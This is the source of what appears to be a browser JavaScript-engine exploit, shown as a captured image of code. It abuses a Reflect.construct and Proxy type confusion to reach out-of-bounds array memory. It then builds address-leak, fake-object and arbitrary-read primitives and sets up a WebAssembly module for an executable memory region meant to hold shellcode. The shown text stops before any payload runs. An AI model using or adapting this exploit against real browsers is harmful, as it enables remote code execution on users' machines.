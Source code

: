 ```js

function empty() { }

function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 3.2378e-319 : 3.2378e-319);  // itof(0xfffen)
    for (let i = 0; i < ITERATIONS; i++) { }
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [0.1];
        obj_arr = [{}];
        buf = new ArrayBuffer(shellcode.length);
        return Object.prototype;
    }
});

function main(p) {
    f(p);
    for (let i = 0; i < ITERATIONS; i++) { }
}

for (let i = 0; i < ITERATIONS; i++) { empty(); }
main(empty);
main(empty);
main(p);

// get (compressed) address of object
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}

// generate fake object
function fakeobj(addr) {
    let obj_addr = ftoi(oob_arr[4]);
    obj_addr &= 0xffffffff00000000n;
    obj_addr |= addr;
    oob_arr[4] = itof(obj_addr);
    return obj_arr[0];
}

let float_arr_map = ftoi(oob_arr[1]) & 0xffffffffn;  // map of float array

// arbitrary address read
function aar(addr) {
    let elements = addr - 8n;  // elements pointer
    let length = 2n;  // length is 1
    let float_arr_struct = [0.1, 0.2];  // fake float array structure
    float_arr_struct[0] = itof(float_arr_map);
    float_arr_struct[1] = itof((length << 32n) | elements);
    let fake = fakeobj(addrof(float_arr_struct) - 0x10n);  // fake float array
    return ftoi(fake[0]);
}

// allocate rwx memory region
let wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 0, 11]);
let wasmModule = new WebAssembly.Module(wasmCode);
```